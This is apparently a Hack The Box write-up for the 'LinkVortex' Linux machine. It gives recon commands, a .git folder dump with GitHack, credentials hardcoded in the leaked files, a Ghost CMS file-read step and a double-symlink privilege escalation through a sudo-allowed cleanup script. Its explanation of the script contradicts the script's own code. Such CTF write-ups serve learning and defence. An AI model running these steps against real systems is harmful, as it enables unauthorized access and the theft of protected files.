 # LinkVoretx HTB Machine (Linux)

# nmap

Results:

22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:f8:b9:68:c8:eb:57:0f:cb:0b:47:b9:86:50:83:eb (ECDSA)
|_  256 a2:ea:6e:e1:b6:d7:e7:c5:86:69:ce:ba:05:9e:38:13 (ED25519)
80/tcp open  http    Apache httpd
|_http-title: Did not follow redirect to http://linkvortex.htb/
|_http-server-header: Apache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Add IP address and domain to /etc/hosts

# http

From the footer we can see that is powered by ghost cms

Without gobuster and trying to figure what version of ghost they are using I went over to the **/ghost** directory.
Prompted to me to login; tried the basic login but did not work and the forgot button also does not work.

`whatweb linkvortex.htb`
Results: 

http://linkvortex.htb [200 OK] Apache, Country[RESERVED][ZZ], HTML5, HTTPServer[Apache], IP[10.10.11.47], JQuery[3.5.1], MetaGenerator[Ghost 5.58], Open-Graph-Protocol[website], PoweredBy[Ghost,a], Script[application/ld+json], Title[BitByBit Hardware], X-Powered-By[Express], X-UA-Compatible[IE=edge]
Shows that Ghost is using version 5.58; so all the exploits that I have seen thus far have been patched. 

# ffuf

`ffuf -u http://linkvortex.htb -H "HOST:FUZZ.linkvortex.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -ac`
Results:

dev                     [Status: 200, Size: 2538, Words: 670, Lines: 116, Duration: 85ms]

Alright, so we've got that subdomain locked in, right? Cool. Now, we're just gonna take a casual stroll through its directories at `http://dev.linkvortex.htb`. Think of it like poking around a bit, seeing what's lying around. Sometimes, you find those hidden gems, you know? Like config files or maybe even a repo or two. Basically, we're just trying to get a better feel for what's going on under the hood.
`ffuf -u http://dev.linkvortex.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt`
Results:

.htaccess               [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 84ms]
.htpasswd               [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 84ms]
.git/HEAD               [Status: 200, Size: 41, Words: 1, Lines: 2, Duration: 86ms]
.git                    [Status: 301, Size: 239, Words: 14, Lines: 8, Duration: 86ms]
.hta                    [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 87ms]
.git/config             [Status: 200, Size: 201, Words: 14, Lines: 9, Duration: 87ms]
.git/logs/              [Status: 200, Size: 868, Words: 59, Lines: 16, Duration: 87ms]
.git/index              [Status: 200, Size: 707577, Words: 2171, Lines: 2172, Duration: 87ms]
cgi-bin/                [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 78ms]
index.html              [Status: 200, Size: 2538, Words: 670, Lines: 116, Duration: 88ms]
server-status           [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 80ms]


# Git leak
GitHack is a **.git** folder disclosure exploit.
`python GitHack.py http://dev.linkvortex.htb/.git/`

Soon as I saw File not found dumps and ctrl c and started looking for interesting files. 
I also saw that it dumped **/ghost** files. I soon remembered that login poge were I was at earlier.
Started to look for any interesting files while keeping that in mind and also for any **api** files.

`ghost/core/test/regression/api/admin/authentication.test.js` and also a Dockerfile. 
This was dumped directory given to us from the tool GitHack. 
If we read the files we find important hardcoded credentials.

# Exploit 
Remember that the Ghost version is 5.58 and I did not find any exploit but I also did not look deeply then.
Since logging in with the credentials did not give us much I like to think that there is an exploit out there.

With a new simple Google search (ghost cms exploit 5.58 github) we found the right one to use. 

Once I was able to perform an arbitrary file read of any file on the host operating system.
I grabbed the Copy config from the **Dockerfile.ghost** that I found earlier.

```
cat Dockerfile.ghost 
FROM ghost:5.58.0

# Copy the config
COPY config.production.json /var/lib/ghost/config.production.json

```

Pasting that gave username and password that we can use to login using SSH.

# SSH
Once logging in we can get the user flag right away. 

I always check for other files, directories, users etc.. but before that I always like to check for the user's permission. 

`sudo -l`
Results:

```
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty, env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```

I used `cat` to see what is inside the file. 
Results:

```
bob@linkvortex:~$ cat /opt/ghost/clean_symlink.sh
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```
This script, clean_symlink.sh, is a security tool that performs operations on symbolic links (symlinks) in a Linux system, specifically those involving .png files.

In this scenario, the script successfully moved the symlink huh.png (which pointed to /root/root.txt) to quarantine because it detected the target as being from the /root directory, which is sensitive.

```
bob@linkvortex:~$ ln -s /root/root.txt huh.txt
bob@linkvortex:~$ ln -s /home/bob/huh.txt huh.png
bob@linkvortex:~$ sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/huh.png
Link found [ /home/bob/huh.png ] , moving it to quarantine
Content:

```

PWNED!

# Summary 

This CTF involved multiple stages, with key exploitation techniques relying on **Ghost CMS**, weak **user permissions**, and a **symlink vulnerability**:

1. **Ghost CMS Version 5.58**: While the version was known and patched against certain exploits, it was the **GitHack** tool that helped uncover hardcoded credentials inside the **.git** folder, specifically in files like `ghost/core/test/regression/api/admin/authentication.test.js`. These credentials provided SSH access to the system.

2. **Git Folder Disclosure**: Accessing `.git/` revealed sensitive files, including **Dockerfile** and **config.production.json**, which exposed useful information about the application and system. This was key in moving forward with the attack.

3. **SSH Access**: After logging in via SSH as the user `bob`, the attacker used `sudo -l` to identify a critical misconfiguration. The user had **NOPASSWD** access to run a specific script (`/opt/ghost/clean_symlink.sh`) that handled symbolic links, which was a major weak point.

4. **Symlink Vulnerability**: The script was designed to handle `.png` files, moving symlinked files pointing to sensitive locations into quarantine. By leveraging this misconfiguration, the attacker created a symlink to **/root/root.txt** and successfully read its contents by exploiting the script's ability to process symlinks.

**Critical Takeaways**:
- **Git folder disclosure**: This is a powerful attack vector, especially when accessing repositories or test directories that may contain sensitive data like credentials.
- **Misconfigured sudo permissions**: Even non-root users can escalate privileges if they have NOPASSWD access to critical scripts. Always ensure that sudo permissions are tightly controlled and reviewed.
- **Symlink handling**: Misconfigured scripts or services that process symlinks can be used to gain access to sensitive files, especially if there is a lack of validation for file paths or symlink targets.
